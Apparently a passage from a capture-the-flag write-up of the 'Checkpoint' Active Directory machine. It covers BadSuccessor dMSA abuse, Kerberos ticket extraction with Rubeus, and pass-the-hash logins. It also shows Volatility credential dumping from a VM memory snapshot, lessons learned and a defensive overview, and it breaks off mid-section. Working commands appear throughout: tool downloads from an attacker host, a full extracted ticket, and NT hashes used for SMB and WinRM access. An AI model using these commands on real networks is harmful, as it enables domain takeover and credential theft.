

### Privilege Escalation Research


With access to Ryan's context, attention shifted toward Active Directory delegation and service-account related permissions.

Particular focus was placed on delegated Managed Service Accounts (dMSAs), a feature introduced in newer Windows Server environments to simplify service account migrations and management.

#### CVE-2025-53779 (BadSuccessor)

Public research published in 2025 described a privilege escalation technique affecting certain delegated Managed Service Account migration scenarios.

| Property           | Value                                  |
| ------------------ | -------------------------------------- |
| CVE                | CVE-2025-53779                         |
| Name               | BadSuccessor                           |
| Severity           | High                                   |
| Affected Systems   | Windows Server 2025 Domain Controllers |
| Discovery          | Akamai Security Research               |
| Patch Availability | August 2025 Security Updates           |


The vulnerability concerns how specific migration-related attributes are processed during delegated Managed Service Account transitions.

Under certain conditions, improper handling of these relationships may allow privilege escalation opportunities within Active Directory environments.


Public research indicates that exploitation generally depends on:

* Windows Server 2025 domain infrastructure
* Specific Active Directory permissions
* Control over relevant organizational units or account objects


Successful abuse can lead to:

* Service account compromise
* Privilege escalation
* Unauthorized authentication
* Potential domain-wide impact

The exact impact depends on the permissions available to the attacker and the environment's configuration.


Write access to the DevDrop share enabled interaction with an internal VS Code extension distribution workflow, resulting in execution under the `ryan.brooks` account.

This advancement aligned perfectly with the BloodHound findings and moved the attack path one step closer to the `svc_deploy` service account. Subsequent analysis focused on Active Directory delegation mechanisms and newly disclosed research affecting delegated Managed Service Accounts in Windows Server 2025 environments.

#### Enumerating dMSA Permissions


After obtaining access as `ryan.brooks`, further investigation focused on the delegated Managed Service Account (dMSA) attack path identified during earlier enumeration.

Several utilities were transferred to the compromised host to assist with permission analysis, Kerberos ticket handling, and Active Directory research.


| Tool                                | Purpose                                                                         |
| ----------------------------------- | --------------------------------------- |
| `Get-BadSuccessorOUPermissions.ps1` | Enumerates Organizational Units where the current user has relevant permissions |
| `SharpSuccessor.exe`                | Assists with delegated Managed Service Account research                         |
| `Rubeus.exe`                        | Kerberos ticket interaction and extraction                                      |


```bash
python3 -m http.server 8080
```


```powershell
wget "http://10.10.16.216/Get-BadSuccessorOUPermissions.ps1" -OutFile "C:\Users\ryan.brooks\Desktop\Get-BadSuccessorOUPermissions.ps1"

wget "http://10.10.16.216/SharpSuccessor.exe" -OutFile "C:\Users\ryan.brooks\Desktop\SharpSuccessor.exe"

wget "http://10.10.16.216/Rubeus.exe" -OutFile "C:\Users\ryan.brooks\Desktop\Rubeus.exe"
```




#### Identifying Writable Organizational Units

Research into the BadSuccessor attack indicates that specific Active Directory permissions are required before a delegated Managed Service Account can be created or modified.

To determine whether the current user possessed the necessary access, Organizational Unit permissions were enumerated.


The results revealed that `ryan.brooks` possessed permissions over a dedicated dMSA-related Organizational Unit.


```powershell
.\Get-BadSuccessorOUPermissions.ps1
```

```bash
netexec ldap 10.XXX.X.XXX -u 'Mark.Davies' -p 'Checkpoint2024!' -M badsuccessor
LDAP        10.XXX.X.XXX    389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:checkpoint.htb) (signing:Enforced) (channel binding:No TLS cert) 
LDAP        10.XXX.X.XXX    389    DC01             [+] checkpoint.htb\Mark.Davies:Checkpoint2024! 
BADSUCCE... 10.XXX.X.XXX    389    DC01             [+] Found domain controller with operating system Windows Server 2025: 10.XXX.X.XXX (DC01.checkpoint.htb)
BADSUCCE... 10.XXX.X.XXX    389    DC01             [+] Found 2 results
BADSUCCE... 10.XXX.X.XXX    389    DC01             alex.turner (S-1-5-21-3129162710-3498938529-1807524340-1101), OU=Employees,DC=checkpoint,DC=htb
BADSUCCE... 10.XXX.X.XXX    389    DC01             ryan.brooks (S-1-5-21-3129162710-3498938529-1807524340-1103), OU=DMSAHolder,DC=checkpoint,DC=htb
```



| Identity      | Accessible OU   |
| ------------- | --------------- |
| `ryan.brooks` | `OU=DMSAHolder` |
| `alex.turner` | `OU=Employees`  |


Delegated Managed Service Accounts are created within Organizational Units.

If a user possesses sufficient rights over an OU, they may be able to create or modify objects within that container depending on the environment's configuration.


The same findings were later confirmed using LDAP-based enumeration from an external perspective.

The results showed:

```text
Windows Server 2025 Domain Controller
Found 2 Results

alex.turner  -> OU=Employees
ryan.brooks  -> OU=DMSAHolder
```


| User          | Relevant Permission          |
| ------------- | ---------------------------- |
| `ryan.brooks` | Control over `OU=DMSAHolder` |

This represented the first major prerequisite required for the delegated Managed Service Account attack path.


### Kerberos Ticket Acquisition


To continue testing the identified attack path, a Kerberos Ticket Granting Ticket (TGT) associated with `ryan.brooks` was obtained from the active logon session.


A Ticket Granting Ticket is the core Kerberos credential issued after authentication.

Possession of a valid TGT allows a user to request additional service tickets without repeatedly supplying credentials.


The technique leverages Kerberos delegation behavior to retrieve a usable ticket from the current session.


```powershell
PS C:\Users\ryan.brooks\Desktop> .\Rubeus.exe tgtdeleg /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/DC01.checkpoint.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: RJnM5e3K+gFW754bB5AKmiDyIAYC3Y3QAzImxRERRaU=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      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

```



At a high level:

```text
Current Session -------> Kerberos Delegation Request ------> Forwarded TGT Returned ------> Ticket Extracted
```


A Base64-encoded Kerberos ticket was successfully obtained.

```text
base64(ticket.kirbi)
```

This ticket could subsequently be converted into formats compatible with Linux-based Kerberos tooling.


The extracted ticket was converted into a Kerberos credential cache format suitable for interoperability with common Active Directory assessment tools.


```bash
cat ryan.b64_kirbi | base64 -d > ryan.kirbi

impacket-ticketConverter ryan.kirbi ryan.ccache
```


```text
Base64 Ticket->.kirbi->.ccache->Kerberos Authentication
```


A valid Kerberos credential cache was generated for:

```text
ryan.brooks
```

This enabled authenticated interaction with Active Directory using Kerberos rather than passwords.

```bash
export KRB5CCNAME=ryan.ccache
```





```bash
bloodyAD --host DC01.checkpoint.htb -d checkpoint.htb -u ryan.brooks -k ccache=/home/kali/htb/checkpoint/ryan.ccache add badSuccessor evil-dmsa -t 'CN=SVC_DEPLOY,OU=SERVICEACCOUNTS,DC=CHECKPOINT,DC=HTB' --ou 'OU=DMSAHolder,DC=checkpoint,DC=htb'
```



### Delegated Managed Service Account Research


With Kerberos authentication available and write permissions confirmed on the DMSAHolder Organizational Unit, attention shifted toward the delegated Managed Service Account migration mechanism.

Public research into CVE-2025-53779 describes scenarios where migration relationships between service accounts can influence how authentication material is processed.


```text
Writable OU->Create dMSA Object->Establish Migration Relationship->KDC Processes dMSA->Additional Credential Material Exposed
```


A delegated Managed Service Account object was successfully created within the DMSAHolder Organizational Unit.

The generated Kerberos responses contained both:

* Current dMSA key material
* Historical credential material associated with the migration chain


Among the returned values was credential material associated with:

```text
svc_deploy
```


| Account      | Credential Type                    |
| ------------ | ---------------------------------- |
| `svc_deploy` | Historical authentication material |

This was the most important discovery produced during the dMSA investigation.


The delegated migration process caused the Key Distribution Center to return information linked to the predecessor account relationship.

As a result, authentication material associated with the service account became accessible.


Using the recovered credential material, authentication testing was performed against the domain.


Authentication succeeded as:

```text
svc_deploy
```

The account was accepted by the domain controller and granted access consistent with its assigned permissions.


| Account      | Status                     |
| ------------ | -------------------------- |
| `svc_deploy` | Successfully Authenticated |


**Updated Attack Chain**

```text
alex.turner->Restore mark.davies->Password Reuse->mark.davies->DevDrop Access->ryan.brooks->DMSAHolder Permissions->Delegated Managed Service Account Abuse->svc_deploy
```


Enumeration of Organizational Unit permissions confirmed that `ryan.brooks` possessed access to the dedicated `DMSAHolder` container. Further investigation into delegated Managed Service Account behavior, combined with Kerberos-based authentication, exposed credential material associated with the `svc_deploy` service account.

Successfully authenticating as `svc_deploy` represented another major step forward in the privilege escalation chain and provided access to resources that were previously unavailable.

### Post-Exploitation – Memory Forensics

#### Accessing the VMBackups Share

After successfully authenticating as `svc_deploy`, additional SMB shares became accessible that were previously restricted during earlier enumeration.

```bash
netexec smb 10.XXX.X.XXX -u svc_deploy -H e16081eb077aca74bdbf8af12af43ac9
```

```bash
smbclient //10.XXX.X.XXX/VMBackups -U 'checkpoint.htb/svc_deploy%e16081eb077aca74bdbf8af12af43ac9' --pw-nt-hash
```


One particularly interesting share was:

```text
VMBackups
```

```bash
ls
```


```bash
mkdir -p loot/vmbackup
```

```bash
smbclient //10.XXX.X.XXX/VMBackups -U 'checkpoint.htb/svc_deploy%e16081eb077aca74bdbf8af12af43ac9' --pw-nt-hash -c 'lcd loot/vmbackup; cd "NightlyBackup_2024-11-01/memory forensics"; get "Windows Server 2019-Snapshot1.vmem"'
```

Browsing the share revealed what appeared to be a collection of virtual machine backup files, including VMware disk images and memory snapshots.


| File                                 | Description          |
| ------------------------------------ | -------------------- |
| `Windows Server 2019.vmdk`           | Virtual machine disk |
| `Windows Server 2019-Snapshot1.vmem` | Memory snapshot      |
| `Windows Server 2019-Snapshot1.vmsn` | Snapshot metadata    |
| `Windows Server 2019.vmx`            | VM configuration     |
| `Windows Server 2019.nvram`          | VM firmware data     |


Among the available files, the most valuable artifact was:

```text
Windows Server 2019-Snapshot1.vmem
```



This file represents a VMware memory snapshot containing the contents of RAM at the time the snapshot was taken.


Memory captures often contain highly valuable forensic artifacts, including:

* Running processes
* Active network connections
* Kerberos tickets
* Registry hives
* Cached credentials
* Authentication material

As a result, memory dumps frequently provide opportunities for credential recovery during post-exploitation activities.


The VMware memory snapshot was retrieved for offline analysis.


```text
VMBackups Share ------> Memory Snapshot (.vmem) -----> Download ------> Offline Analysis
```

Because the snapshot was several gigabytes in size, the transfer required additional time before analysis could begin.


#### Memory Analysis with Volatility


Volatility is a widely used open-source memory forensics framework designed to analyze RAM captures from Windows, Linux, and macOS systems.

It provides plugins capable of extracting:

* Process information
* Network activity
* Registry artifacts
* Credential material
* Operating system metadata

```bash
python3 -m venv .venv-vol

.venv-vol/bin/pip install --upgrade pip

.venv-vol/bin/pip install volatility3 pycryptodome
```


The primary objective was to determine whether the memory image contained credential artifacts that could be leveraged for further access.


Initial analysis confirmed the snapshot belonged to a Windows Server system.


| Property         | Value               |
| ---------------- | ------------------- |
| Architecture     | 64-bit              |
| Operating System | Windows Server 2019 |
| Build            | 17763               |
| Snapshot Date    | May 2026            |
| System Root      | `C:\Windows`        |


Knowing the operating system version is important because many forensic plugins rely on correct kernel information when parsing memory structures.


The next phase focused on identifying registry hives present within memory.


| Hive       |
| ---------- |
| SYSTEM     |
| SAM        |
| SECURITY   |
| NTUSER.DAT |


```bash
.venv-vol/bin/vol -q -f "loot/vmbackup/Windows Server 2019-Snapshot1.vmem" windows.info.Info

.venv-vol/bin/vol -q -f "loot/vmbackup/Windows Server 2019-Snapshot1.vmem" windows.registry.hivelist.HiveList

.venv-vol/bin/vol -q -f "loot/vmbackup/Windows Server 2019-Snapshot1.vmem" windows.hashdump.Hashdump
```


The following hives are particularly important during credential analysis:

| Hive     | Purpose                                     |
| -------- | ------------------------------------------- |
| SYSTEM   | Contains system boot key material           |
| SAM      | Stores local account credential information |
| SECURITY | Stores local security policy information    |

The presence of all required hives indicated that credential extraction techniques could be performed against the memory image.


#### Credential Analysis


Windows stores local account authentication information within the Security Account Manager (SAM) database.

When combined with information from the SYSTEM hive, credential data can be recovered from memory snapshots.


```text 
Memory Dump->Registry Hives->Credential Records->Recovered Hashes
```


Analysis revealed several local Windows accounts present within the snapshot.


| User               | RID |
| ------------------ | --- |
| Administrator      | 500 |
| Guest              | 501 |
| DefaultAccount     | 503 |
| WDAGUtilityAccount | 504 |


The recovered data included authentication material associated with the local `Administrator` account.

This represented the most valuable credential artifact discovered during the memory investigation.


The built-in Administrator account typically possesses unrestricted privileges on the host system.

Compromise of this account can enable:

* Full administrative access
* Lateral movement opportunities
* Access to protected resources
* Further credential discovery

The exact impact depends on how the account is used within the environment and whether credential reuse exists elsewhere.


**Updated Attack Chain**

```text
alex.turner->mark.davies->DevDrop Access->ryan.brooks->DMSAHolder Permissions->svc_deploy->VMBackups Share->Memory Snapshot Analysis->Administrator Credential Recovery
```


Access to the `VMBackups` share provided a valuable post-exploitation opportunity. Among the backup artifacts was a VMware memory snapshot containing a complete capture of system memory from a Windows Server 2019 virtual machine.

Using forensic analysis techniques, critical registry hives were recovered and credential artifacts were identified within the memory image. The discovery of Administrator authentication material significantly expanded the attack surface and represented another major escalation point in the compromise chain.


### Domain Compromise


During credential extraction, the following LM hash appeared repeatedly:

```text
aad3b435b51404eeXXXXXXXXXXXXXXXX
```


This value is commonly encountered during Windows credential analysis and typically indicates that legacy LM password hashing is not being used.

Modern Windows operating systems disable LM hashing by default because it is considered cryptographically weak and vulnerable to cracking attacks.


| Hash Value                         | Meaning                                               |
| ---------------------------------- | ----------------------------------------------------- |
| `aad3b435b51404eeaad3b435b51404ee` | Default placeholder value when LM hashing is disabled |

This behavior is expected and does not indicate a configuration issue.


#### Administrative Access Verification


Following memory analysis, recovered authentication material was tested against the domain controller.


The supplied credentials were accepted successfully by the target system.


```bash
netexec smb 10.XXX.X.XXX -u administrator -H f29e9c014295b9b32139b09a2790be3b
```


```text
Administrator Authentication Successful
```


The successful authentication confirmed that the recovered credential material was valid and associated with a highly privileged account.


Administrative credentials provide access to:

* System configuration
* Security settings
* Sensitive files
* Additional credentials
* Domain management functions

This represented the final privilege escalation step in the attack path.


#### Obtaining Root Access

With administrative privileges confirmed, interactive access to the domain controller was established.


| Account         | Privilege Level            |
| --------------- | -------------------------- |
| `Administrator` | Full Administrative Access |

The root flag was subsequently retrieved from the target system, confirming complete compromise of the machine.


```bash
evil-winrm-py -i 10.XXX.X.XXX -u administrator -H f29e9c014295b9b32139b09a2790be3b
```

```powershell
Get-Content C:\Users\max.palmer\Desktop\root.txt
```




### Complete Attack Chain

The compromise required multiple independent weaknesses that were chained together to achieve full administrative control.


```text
alex.turner->Deleted Object Restoration->mark.davies->Password Reuse->DevDrop Repository->VS Code Extension Workflow->ryan.brooks->DMSAHolder Permissions->Delegated Managed Service Account Abuse->svc_deploy->VMBackups Share->Memory Snapshot Analysis->Administrator Credentials->Domain Compromise
```


#### Lessons Learned

##### 1. Active Directory Object Lifecycle Management

Deleted Active Directory objects can remain recoverable for a period of time depending on the environment's retention configuration.


* Audit permissions related to deleted object management
* Review object recovery workflows
* Monitor restoration activity
* Regularly review privileged directory permissions


Organizations should investigate unusual object restoration events and unexpected changes to deleted directory objects.


##### 2. Password Reuse

Credential reuse significantly increased the impact of the initial compromise.


When multiple accounts share identical credentials:

```text
Account A Compromised > Password Reuse -> Account B Compromised
```

* Enforce unique passwords
* Deploy password filtering solutions
* Conduct periodic password audits
* Implement MFA where possible


#### 3. Software Distribution Trust Boundaries

The DevDrop repository functioned as an internal software distribution mechanism.

Repositories that distribute software should be treated as highly sensitive infrastructure.


| Control           | Purpose                           |
| ----------------- | --------------------------------- |
| Code Signing      | Validate publisher authenticity   |
| Malware Scanning  | Detect malicious packages         |
| Access Control    | Restrict repository modifications |
| Change Monitoring | Detect unauthorized uploads       |


##### 4. Delegated Managed Service Accounts

New Active Directory features often introduce additional attack surface that must be evaluated carefully.


* Apply security updates promptly
* Audit Organizational Unit permissions
* Monitor creation of delegated service accounts
* Review service-account migration processes


Organizations should pay particular attention to privileged account relationships and delegated administrative permissions.


#### 5. Virtual Machine Backup Security

The VMware memory snapshot ultimately provided access to sensitive credential material.


Backups frequently contain:

* Credentials
* Secrets
* Kerberos tickets
* Authentication artifacts
* Business-critical data


| Control             | Benefit                    |
| ------------------- | -------------------------- |
| Backup Encryption   | Protect data at rest       |
| Access Restrictions | Limit exposure             |
| Monitoring          | Detect unauthorized access |
| Credential Rotation | Reduce long-term risk      |


No single vulnerability resulted in compromise.

Instead, multiple weaknesses were chained together across:

* Active Directory
* Credential Management
* Software Distribution
* Delegated Service Accounts
* Backup Infrastructure
* Administrative Access Controls

Organizations should adopt a layered security model that includes:

* Tiered administration
* Privileged Access Workstations (PAWs)
* Credential hygiene controls
* Active Directory monitoring
* Centralized logging and alerting
* Regular permission reviews


### Final Thoughts

Checkpoint demonstrates how seemingly unrelated weaknesses can combine into a complete domain compromise. The attack path moved from a low-privileged domain user through Active Directory object restoration, password reuse, software distribution abuse, delegated service account relationships, and memory forensics before ultimately reaching administrative control of the environment.

While each individual issue may appear manageable in isolation, their combined impact highlights the importance of defense in depth, continuous monitoring, and rigorous privilege management throughout enterprise Active Directory environments.


## Defensive Operations


### Strategic Overview

* **1.1 Definition:**
  A multi-stage Active Directory compromise chain leveraging **ACL misconfigurations (GenericWrite over deleted and live objects)**, **software supply-chain abuse via internal VS Code extension deployment (DevDrop)**, **delegated Managed Service Account (dMSA) abuse**, and **offline credential extraction from VM memory snapshots** to achieve full **Domain Controller compromise in a Windows Server 2025 environment**.

* **1.2 Impact:**
  Complete **Tier 0 Domain Compromise**, enabling full control over:

- Domain Controller (DC01)
- Service accounts (`svc_deploy`)
- User accounts across the enterprise
- Offline backup infrastructure (VMBackups)
- Kerberos authentication system (KRBTGT trust chain impact potential)

* **1.3 The Scenario:**
  An attacker begins with a low-privileged domain user (`alex.turner`) in an assumed-breach environment. Misconfigured ACLs allow interaction with **Deleted AD Objects**, enabling restoration of `mark.davies`. Password reuse expands access, exposing write permissions over a **DevDrop software distribution share**.

The attacker injects a malicious VSIX package into an internal **trusted extension pipeline**, resulting in execution as `ryan.brooks`. From there, delegated control over an **OU hosting dMSA objects** is abused, combined with Kerberos delegation techniques, to extract credentials for `svc_deploy`.

Finally, access to a **VM backup repository containing memory snapshots** allows offline forensic extraction of **Administrator NTLM material**, completing full domain compromise.


### System Architecture

* **2.1 Protocol Environment:**
  Active Directory Domain Services (AD DS), Kerberos (TGT/TGS, delegation), NTLM, LDAP/LDAPS, SMB, WinRM, and VMware virtual machine snapshot artifacts (.vmem, .vmdk).

* **2.2 Attack Logic Flow:**

> [GenericWrite on Deleted Objects] → [Object Restoration Abuse] → [Password Reuse Pivot] → [DevDrop Write Access] → [VSIX Supply Chain Execution] → [ryan.brooks Compromise] → [OU Delegation Abuse (dMSA)] → [Kerberos Credential Material Leakage] → [svc_deploy Compromise] → [VMBackups Access] → [Memory Forensics (Volatility)] → [Administrator Hash Recovery] → [Domain Takeover]

* **2.3 Theoretical Analogy:**
